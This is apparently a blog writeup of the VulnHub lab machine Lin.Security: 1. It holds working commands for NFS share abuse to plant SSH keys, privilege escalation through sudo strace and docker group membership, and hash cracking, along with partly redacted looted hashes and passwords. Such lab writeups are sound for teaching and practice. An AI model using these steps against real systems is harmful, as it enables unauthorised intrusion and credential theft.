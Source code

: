 [VulnHub] Lin.Security: 1
===============
date: 10/Oct/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeups

## Overview
This is a writeup for VulnHub VM [Lin.Security: 1](https://www.vulnhub.com/entry/linsecurity-1,244/). Here's an overview of the `enumeration → exploitation → privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_linsecurity1/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Oct  9 19:28:13 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.linsecurity1/results/192.168.92.186/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.linsecurity1/results/192.168.92.186/scans/xml/_quick_tcp_nmap.xml 192.168.92.186
Nmap scan report for 192.168.92.186
Host is up, received arp-response (0.0024s latency).
Scanned at 2019-10-09 19:28:19 PDT for 8s
Not shown: 997 closed ports
Reason: 997 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7a:9b:b9:32:6f:95:77:10:c0:a0:80:35:34:b1:c0:00 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC6IO+zWqbr1ygGx4JPZUC/turDfHidMFqfTWv8glTZnpLnY6ZTTdQ8/HfSgAtwXSdOvSy6QwzSFxamx+TlV0mdrc8oJrcltmA31M0JwrGvCIQspLPuPDNgG3TwJitEb+HyS+PX0/hIIxnPz2LDl6E4/o0Va6HjA4p7qFKCt4PESN47lRvwMBiQjCucTf08yy9VZ7k2JJOvK9X/ebBz2OF3tJJHN3wiezMTIi7xAYSaT8XBHjf/3awUVqASEowf2gd14V8MM6ASwMVhcFGt0/DKxdXuiddphI67Z+3HCR3JsHgKl3nvhSmgTf5ZHt3HPgoe5XmL6LDjmkUGIdNrBya9
|   256 24:0c:7a:82:78:18:2d:66:46:3b:1a:36:22:06:e1:a1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEGq7yVBMw51IUPgAkmf4d8s6nVCPvcgXngPgU6tbTbFeFMUy1Do5mJziIp3eyLrFgZlTkfhjRdYhBoX/ZkM36Q=
|   256 b9:15:59:78:85:78:9e:a5:e6:16:f6:cf:96:2d:1d:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICl+R8URLpkAb92x1+AMcdkp8qCHXphnD8fI+ObeoNs/
111/tcp  open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      37211/tcp  mountd
|   100005  1,2,3      37678/udp  mountd
|   100021  1,3,4      39735/tcp  nlockmgr
|   100021  1,3,4      43597/udp  nlockmgr
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
2049/tcp open  nfs_acl syn-ack ttl 64 3 (RPC #100227)
MAC Address: 00:0C:29:07:84:F0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  9 19:28:27 2019 -- 1 IP address (1 host up) scanned in 14.69 seconds
```

2\. We find that there is an open NFS share for the `/home/peter` directory on the target system:  
```
showmount -e 192.168.92.186
```

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_linsecurity1/screenshot01.png)  

### Findings
#### Open Ports:
```
22/tcp     |  ssh       |  OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
111/tcp    |  rpcbind   |  2-4 (RPC #100000)
2049/tcp   |  nfs_acl   |  3 (RPC #100227)
37211/tcp  |  mountd    |  1-3 (RPC #100005)
39735/tcp  |  nlockmgr  |  1-4 (RPC #100021)
53127/tcp  |  mountd    |  1-3 (RPC #100005)
57997/tcp  |  mountd    |  1-3 (RPC #100005)
```
#### Users
```
ssh: peter
```

## Phase #2: Exploitation
1\. We mount this share locally and copy our SSH public key to the newly created `.ssh` directory within mounted NFS share:  
```
cp ~/.ssh/id_rsa.pub ./authorized_keys
mkdir share
mount 192.168.92.186:/home/peter share/ -o vers=3
useradd -u 1001 peter
su peter
cd share
mkdir .ssh
cp ../authorized_keys .ssh/
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_linsecurity1/screenshot02.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_linsecurity1/screenshot03.png)  

![writeup.exploitation.steps.1.3](/static/files/posts_vulnhub_linsecurity1/screenshot04.png)  

2\. Now we can SSH into the target system as user `peter`:  
```
ssh peter@192.168.92.186
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_linsecurity1/screenshot05.png)  

3\. We find an interesting file `.secret` under user `susan`'s home directory. This file has the password in cleartext which we can use to login:  
```
cat /home/susan/.secret
su susan
```

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_linsecurity1/screenshot06.png)  

## Phase #2.5: Post Exploitation
```
peter@linsecurity> id
uid=1001(peter) gid=1005(peter) groups=1005(peter),999(docker)
peter@linsecurity>  
peter@linsecurity> uname
Linux linsecurity 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
peter@linsecurity>  
peter@linsecurity> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.186  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fe07:84f0  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:07:84:f0  txqueuelen 1000  (Ethernet)
        RX packets 124781  bytes 75456965 (75.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 99458  bytes 6136016 (6.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
peter@linsecurity>  
peter@linsecurity> users
bob
peter
susan
```

## Phase #3: Privilege Escalation
1\. We find that the user `peter` can run `strace` with elevated privileges. This gives us a option to elevate privileges by tracing a program that spawns a shell:  
```
nano privesc.c
  #include <stdlib.h>
  #include <unistd.h>
  int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
  }
gcc -o privesc privesc.c
sudo strace ./privesc
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_linsecurity1/screenshot07.png)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_linsecurity1/screenshot08.png)  

2\. We can also elevate privileges using `docker` since the user `peter` is already a member of group `docker`:  
```
mkdir docker-test
cd docker-test
cat > Dockerfile
  FROM debian:wheezy
  ENV WORKDIR /stuff
  RUN mkdir -p $WORKDIR
  VOLUME [ $WORKDIR ]
  WORKDIR $WORKDIR
  << EOF
docker build -t my-docker-image .
docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'
./sh
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_linsecurity1/screenshot09.png)  

![writeup.privesc.steps.2.2](/static/files/posts_vulnhub_linsecurity1/screenshot10.png)  

![writeup.privesc.steps.2.3](/static/files/posts_vulnhub_linsecurity1/screenshot11.png)  

3\. We find that the user `insecurity`'s (unsalted) password hash is stored within `/etc/passwd`. We run a bruteforce on this hash to get the cleartext password. Since this user has same uid/gid as user `root`, we get elevated access on the target system:  
```
cat /etc/passwd
echo "insecurity:AzER3pBZh6WZE:0:0::/:/bin/sh" >passwd
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt passwd
  P@ssw0rd         (insecurity)
ssh insecurity@192.168.92.186
```

![writeup.privesc.steps.3.1](/static/files/posts_vulnhub_linsecurity1/screenshot12.png)  

![writeup.privesc.steps.3.2](/static/files/posts_vulnhub_linsecurity1/screenshot13.png)  

## Loot
### Hashes
```
root:$6$aorWKpxj$yOgku4F1ZRbqvSxxUtAYY2/6K/UU5wLobTSz/Pw5/ILvXgq9NibQ0/NQbOr1Wzp2bTbpNQr1jNNlaGjXD........................
bob:$6$Kk0DA.6Xha4nL2p5$jq7qoit2l4ckULg1ZxcbL5wUz2Ld2ZUa.RYaIMs.Lma0EFGheX9yCXfKy37K0GsHz50FYIqIESo4QXWL.........................
peter:$6$QpjS4vUG$Zi1KcJ7cRB8TJG9A/x7GhQQvJ0RoYwG4Jxj/6R58SJddU2X/QTQKNJWzwiByeTELKeyp0vS83kPsYITbT........................
susan:$6$5oSmml7K$0joeavcuzw4qxDJ2LsD1ablUIrFhycVoIXL3rxN/3q2lVpQOKLufta5tqMRIh30Gb32IBp5yZ7XvBR6uX........................
```
### Credentials
```
ssh: bob/secr.., susan/MySuperS3cretV....., insecurity/P@ss....
```
## References
* <https://www.vulnhub.com/entry/linsecurity-1,244/>  
* <https://in.security/lin-security-walkthrough/>  
* <https://hackso.me/lin.security-1-walkthrough/>  
